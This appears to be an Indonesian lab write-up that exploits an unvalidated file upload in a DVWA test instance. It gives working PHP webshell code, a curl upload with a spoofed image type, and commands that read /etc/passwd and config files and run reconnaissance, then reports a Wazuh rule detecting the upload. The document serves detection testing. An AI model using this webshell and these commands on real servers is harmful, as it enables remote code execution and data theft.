# File Upload Webshell Attack

## Deskripsi

Attacker mengupload file PHP berbahaya ke server melalui fitur
upload yang tidak divalidasi, kemudian mengeksekusi command
di server korban. Serangan ini memungkinkan Remote Code Execution
(RCE) dan menjadi pintu masuk untuk post-exploitation.

## MITRE ATT&CK

- **Tactic:** Persistence
- **Technique:** T1505.003 — Web Shell

## Target

- **URL:** `http://192.168.217.130/DVWA/vulnerabilities/upload/`
- **Webshell Path:** `http://192.168.217.130/DVWA/hackable/uploads/shell.php`

## Persiapan

```bash
# Ambil session cookie dari browser
# F12 → Console → ketik: document.cookie

SESS="security=low; PHPSESSID=ISI_SESSION_DISINI"
```


---

## Attack Commands

### 1. Buat Webshell PHP

Membuat file PHP sederhana yang menerima parameter `cmd` dan mengeksekusinya di server.

```bash
cat > /tmp/shell.php << 'SHELL'
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
SHELL
```



---

### 2. Upload Webshell via DVWA

Mengupload file PHP ke server melalui fitur upload DVWA yang tidak memvalidasi tipe file.

```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/upload/" \
  -b "$SESS" \
  -F "uploaded=@/tmp/shell.php;type=image/jpeg" \
  -F "Upload=Upload"
```



---

### 3. Eksekusi Command — System Info

Menjalankan command dasar untuk mengidentifikasi user dan sistem target.

```bash
# Cek user yang menjalankan web server
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=id"

# Cek hostname
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=whoami"
```



---

### 4. Eksekusi Command — Baca File Sensitif

Menggunakan webshell untuk membaca file sistem yang seharusnya tidak bisa diakses via web.

```bash
# Baca /etc/passwd
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=cat+/etc/passwd"
```



```bash
# Baca konfigurasi nginx
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=cat+/etc/nginx/nginx.conf"
```



---

### 5. Eksekusi Command — Network Reconnaissance

Mengumpulkan informasi jaringan dari server target untuk lateral movement.

```bash
# Lihat network interfaces
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=ip+a"
```



```bash
# Lihat koneksi aktif
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=ss+-tlnp"
```



```bash
# Lihat proses yang berjalan
curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=ps+aux"
```



---

### 6. Multiple Command — Trigger Wazuh Detection

Mengirim berbagai command melalui webshell untuk memicu deteksi Wazuh.

```bash
COMMANDS=(
  "id"
  "whoami"
  "cat+/etc/passwd"
  "uname+-a"
  "ls+-la+/etc/"
)

for cmd in "${COMMANDS[@]}"; do
  echo "=== Command: $cmd ==="
  curl -s "http://192.168.217.130/DVWA/hackable/uploads/shell.php?cmd=${cmd}" | \
    sed -n '/<pre>/,/<\/pre>/p' | sed 's/<[^>]*>//g' | head -5
  sleep 1
done
```



---

## Hasil Serangan di Browser

### Webshell Berhasil Dieksekusi



> Webshell berhasil diupload dan command `id` dieksekusi,
> menunjukkan web server berjalan sebagai user `www-data`,
> membuktikan Remote Code Execution berhasil.

---

## Detection di Wazuh

### Rule 100053 — Webshell Upload Terdeteksi



> Rule **100053** berhasil mendeteksi file yang ditulis ke folder
> uploads dengan level **14 (Critical)**.
> Deskripsi: *KRITIS: File ditulis ke folder uploads - kemungkinan webshell*

---

## Detection Summary

- **Rule ID:** `100053` — **Level:** `14` (Critical)
- **Rule Chain:** `80700` → `100053`
- **MITRE ID:** T1505.003
- **Log Source:** Auditd (`audit.key: webshell_upload`)
- **Description:** KRITIS: File ditulis ke folder uploads - kemungkinan webshell

## Referensi

- [OWASP File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [MITRE T1505.003](https://attack.mitre.org/techniques/T1505/003/)
